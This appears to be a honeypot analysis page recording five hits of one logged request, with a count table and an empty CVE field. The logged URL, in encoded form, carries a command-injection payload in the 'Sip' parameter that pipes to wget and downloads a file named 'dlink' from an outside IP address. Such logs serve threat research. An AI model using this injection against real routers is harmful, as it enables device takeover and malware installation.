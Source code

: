 # Analysis for /chkisg.htm%3FSip%3D1.1.1.1%20%7C%20wget%20http%3A//176.32.34.111%3A24791/dlink%20-O%20test
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 5 | 5 | | 220110-033754 |

## CVE: 